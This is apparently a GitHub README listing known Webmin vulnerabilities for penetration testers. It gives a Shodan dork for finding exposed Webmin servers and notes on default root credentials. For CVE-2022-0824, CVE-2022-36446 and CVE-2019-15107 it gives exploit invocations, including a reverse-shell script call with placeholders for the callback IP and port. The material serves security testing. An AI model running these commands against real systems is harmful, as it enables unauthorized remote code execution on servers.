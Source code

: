 <h1 align="center">
  <br>
  <a href=""><img src="/img/logo.png" alt="" width="400px;"></a>
  <br>
  <img src="https://img.shields.io/badge/PRs-welcome-blue">
  <img src="https://img.shields.io/github/last-commit/kh4sh3i/DevSecOps">
  <img src="https://api.codacy.com/project/badge/Grade/e5fd334a431848dcb6ecdb3784fb5dfb">
  <a href="https://twitter.com/intent/follow?screen_name=kh4sh3i_"><img src="https://img.shields.io/twitter/follow/kh4sh3i_?style=flat&logo=twitter"></a>
  <a href="https://github.com/kh4sh3i"><img src="https://img.shields.io/github/stars/kh4sh3i?style=flat&logo=github"></a>
</h1>

# Webmin CVE 
a Curated list of Webmin vulnerability for penetration tester



## What is Webmin?
Webmin is a web-based interface for system administration for Unix. Using any modern web browser, you can setup user accounts, Apache, DNS, file sharing and much more.


## Shodan Dork
```
http.html:"webmin"
```

## default credential
root:unix_root_password
You should be able to login as root, using the same password as the root Unix user on your Linux system. However, if you change the Unix root password in future the Webmin root user will not change. This is because the package install just copies the current password from the /etc/shadow file.

## installing url
```
 http://_your-systems-hostname_:10000/
```


## CVE-2022-0824
Improper Access Control to Remote Code Execution in GitHub repository webmin/webmin prior to 1.990.
Webmin 1.984 and below - File Manager privilege exploit (CVE-2022-0824 and CVE-2022-0829)
Less privileged Webmin users who do not have any File Manager module restrictions configured can access files with root privileges, if using the default Authentic theme


```
nuclei -u target.com:1000 -t CVE-2022-0824.yaml -v -V username=username -V password=password

python3 Webmin-revshell.py -t [TARGET] -c [CREDENTIAL] -LS [PY3HTTP_SERVER] -L [CALLBACK_IP] -P [CALLBACK_PORT]
```



## CVE-2022-36446
software/apt-lib.pl in Webmin before 1.997 lacks HTML escaping for a UI command.

```
nuclei -u target.com:1000 -t CVE-2022-36446.yaml -v -V username=username -V password=password
```


## CVE-2019-15107
An issue was discovered in Webmin <=1.920. The parameter old in password_change.cgi contains a command injection vulnerability.

```
python2 CVE_2019_15107.py https://target-ip:10000 cmd
```



## references
* [CVE-2022-0824](https://nvd.nist.gov/vuln/detail/cve-2022-0824)
* [installing webmin](https://doxfer.webmin.com/Webmin/Installing_Webmin)
* [Webmin Security Vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-358/Webmin.html)
* [CVE-2022-36446](https://www.tenable.com/cve/CVE-2022-36446)
* [CVE-2019-15107 Webmin RCE <=1.920 (unauthorized)](https://github.com/jas502n/CVE-2019-15107)
* [Webmin-CVE-2022-0824-revshell](https://github.com/faisalfs10x/Webmin-CVE-2022-0824-revshell)